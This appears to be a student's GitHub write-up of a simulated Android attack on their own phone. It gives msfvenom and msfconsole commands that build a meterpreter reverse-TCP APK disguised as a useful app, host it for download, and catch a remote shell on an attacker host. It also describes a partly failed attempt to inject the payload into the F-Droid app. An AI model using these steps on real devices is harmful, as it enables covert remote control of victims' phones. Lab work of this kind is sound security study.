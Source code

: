 For this simulated attack we will use my phone as the target device and my laptop as the attacking device. 
# Attack: Remote Shell execution by malicious payload present in target device

## Broad Idea
We will use a tool ```msfvenom``` to build an apk which will be downloaded on the target device, lets say via social engineering. We will then use ```msfconsole``` to listen on the listening port and connect to the reverse TCP shell on the target device.

### Generate the payload
```msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o very-useful-app.apk```

```LHOST``` - The IP of the host who has sent the payload
```LPORT``` - The listening port for the payload to connect back to the attacker 
```-o``` - The name of the resulting apk file generated 

### Deliver the file to the target device [Android]
Here we are going the host the the app as a website and whenever the unsuspeting victim browses to the website, they are prompted to download the file. This may be especiallly convincing when the user is trying to download pirated software, video or music. 

```sudo mv very-useful-app.apk /var/www/html``` 
```cd var/www/html``` 
```service apache2 start``` 

This starts up a website hosted on our computer itself, which hosts the file. 
Here is the POV of the victim downloading the apk. 

```Note that Google Play Protect has been disabled for this denomstration which would otherwise flag the file and not let the installation go through```

[target_downloading_the_payload.mp4](:/99ff52b9117d493d939570d5fe875d6d)

As the victim downloads the app we prepare for our next step. We start up Metasploit and select the exploit ```exploit/multi/handler``` and set up the same ```LHOST``` and ```LPORT```. The attacking device will now start listening on port 4444 and wait for connection from the payload.

```msfconsole``` 
```use exploit/multi/handler``` 
```set LHOST <attacker-IP>``` 
```set LPORT 4444``` 
```exploit``` 

Once the phone has installed the app and the victim tries to run it, the payload should activate and we will be given a shell on the android device. During my tests, I found that the target device had to force-start the app via Termux to get a persistent connection, otherwise the app would almost immediately get shut down by the android device. 

[force_starting_the_service.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/force_starting_the_service.mp4)

After we get a shell, we can explore the CLI interface of the android by typing ```help``` in the terminal. We soon realise that a lot of the commands are not usable by us. We need to perform privilege escalation to execute other commands. 
After this attempt I left for my class. When I came back the shell stopped working. I could not believe what I just witnessed and slowly came to realisation that it was time to get my hands dirty.

This picture is the only proof I have that I had actually managed to get a meterpreter shell on that android phone.

![the_only_proof.jpeg](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/the_only_proof.jpeg)

## # Troubleshooting Attempt - 1
I initially thought that the connection was weak so I tried port forwarding. 

![ngrok.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/ngrok.png)

![another_payload_using_port_fwd.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/another_payload_using_port_fwd.png)

![couldnt_reproduce_output.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/couldnt_reproduce_output.png)

Sadly, the output is still the same and msfconsole is left at listening mode.

## # Troubleshooting Attempt - 2
By now we can say that this vulnerability has been patched and the only effective way to get past this is to get the android to think this is a legitimate app but I'm not very good at this so here's my attempt

We get a legitimate app from the internet to act as the trojan, here we use F-Droid

![legitimate_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/legitimate_app.png)

Then we have to decompile both the apps and inject the malicious code from the payload into the legitimate F-Droid App.

![decompiling_both_apps.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/decompiling_both_apps.png)

Injecting malicious code from the payload into the ```AndroidManifest.xml``` file

![injecting_malicious_code.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/injecting_malicious_code.png)

![locating_the_MainActivity_file.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/locating_the_MainActivity_file.png)

![editing_smali_of_legit_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/editing_smali_of_legit_app.png)

This final step i.e. to edit the ```.smali``` file of the legitmate app, after doing which it started throwing errors during recompilation of the program.


## Final thoughts

Probably should've written my own script as these vulnerabilites get patched pretty quickly.
